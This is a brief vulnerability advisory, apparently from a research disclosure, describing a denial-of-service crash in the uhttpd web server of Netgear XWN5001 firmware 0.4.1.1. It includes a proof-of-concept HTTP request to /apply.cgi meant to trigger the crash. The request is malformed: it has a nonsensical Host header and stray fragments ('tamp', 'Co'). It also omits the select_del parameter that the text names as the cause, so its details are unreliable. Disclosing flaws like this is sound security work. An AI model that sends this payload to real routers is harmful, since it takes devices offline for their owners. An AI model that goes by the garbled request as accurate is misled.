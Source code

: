 # xwn5001-0.4.1.1
## Firmware version
xwn5001-0.4.1.1

The firmware can be downloaded at https://www.netgear.com/support/product/xwn5001/.
## description
The Netgear xwn5001-0.4.1.1 uhttpd binary contains a null-pointer-dereference vulnerability. When a specific network packet is sent to the uhttpd binary, the atoi operation crashes, resulting in a denial of service. This vulnerability can be exploited by a local or remote unauthenticated attacker.
## detail
The vulnerability is located in the function at address 0x4399AC of the binary usr/sbin/uhttpd. The parameter select_del passed to atoi is the source of the issue.

![wlacl_del](wlacl_del.png)

## Send package
```txt
GET /apply.cgi?c HTTP/1.1
Host: /cgi-bin/
tamp
Accept: 69
Co
Content-Length: 595

plc_qos_port_select=10&hide2_policy=123123123&submit_flag=wlacl_del
```
